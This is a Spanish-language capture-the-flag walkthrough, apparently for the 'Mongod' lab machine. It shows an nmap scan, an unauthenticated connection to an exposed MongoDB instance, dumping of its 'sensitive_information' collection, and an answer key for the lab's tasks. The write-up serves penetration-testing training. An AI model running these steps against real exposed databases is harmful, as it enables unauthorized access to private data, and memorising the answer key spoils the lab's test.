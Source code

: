 # Mongod

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **MongoDB**: Base de datos NoSQL de código abierto que almacena datos en formato JSON (BSON). Es popular por su flexibilidad y escalabilidad, pero requiere configuraciones adecuadas para prevenir vulnerabilidades como la exposición de puertos sin protección o la falta de autenticación.
  * **Databases (Bases de Datos)**: Sistemas de almacenamiento de datos organizados que permiten la gestión y recuperación eficiente de información. Las bases de datos pueden ser relacionales (SQL) o no relacionales (NoSQL), y una configuración incorrecta o sin medidas de seguridad adecuadas puede poner en riesgo la integridad y confidencialidad de los datos.
  * **Reconnaissance (Reconocimiento)**: Proceso de recolección de información sobre un objetivo para identificar posibles puntos de ataque. Esto incluye el análisis de servicios activos, puertos abiertos, sistemas operativos, y más. Es una fase clave en las pruebas de penetración.
  * **Misconfiguration (Mala Configuración)**: Error en la configuración de un sistema, red o servicio que crea vulnerabilidades de seguridad. Ejemplos incluyen configuraciones incorrectas de firewalls, permisos excesivos, o puertos abiertos innecesarios, que pueden ser explotados por atacantes.
  * **Anonymous/Guest Access (Acceso Anónimo/Acceso de Invitado)**: Acceso permitido a un sistema o recurso sin la necesidad de autenticarse. Si no se configura correctamente, este tipo de acceso puede permitir que usuarios no autorizados exploren o modifiquen datos de un sistema, aumentando el riesgo de explotación.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.163.203
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sC -Pn 10.129.163.203
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 154557.png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto 22 perteneciente al servicio **SSH** y el puerto **27017** correspondiente a **MongoDB** están abiertos. A continuación, se indagará más sobre estos servicios.

Descargamos MongoDB.

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Ejecutamos dentro del directorio.

```bash
./mongo mongodb://10.129.163.203:27017
```

Estando dentro vemos la información.

```
show dbs
use sensitive_information;
show collections;
db.flag.find().pretty();
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1**

¿Cuántos puertos TCP están abiertos en la máquina?\
**Respuesta:** `2`

**Task 2**

¿Qué servicio se está ejecutando en el puerto 27017 del host remoto?\
**Respuesta:** `MongoDB 3.6.8`

**Task 3**

¿Qué tipo de base de datos es MongoDB? (Elige: SQL o NoSQL)\
**Respuesta:** `NoSQL`

**Task 4**

¿Cuál es el nombre del comando para la shell de MongoDB que se instala con el paquete `mongodb-clients`?\
**Respuesta:** `Mongosh`

**Task 5**

¿Qué comando se usa para listar todas las bases de datos presentes en el servidor de MongoDB?\
**Respuesta:** `show dbs`

**Task 6**

¿Qué comando se usa para listar las colecciones dentro de una base de datos?\
**Respuesta:** `show collections`

**Task 7**

¿Qué comando se usa para volcar el contenido de todos los documentos dentro de la colección llamada `flag` en un formato fácil de leer?\
**Respuesta:** `db.flag.find().pretty()`
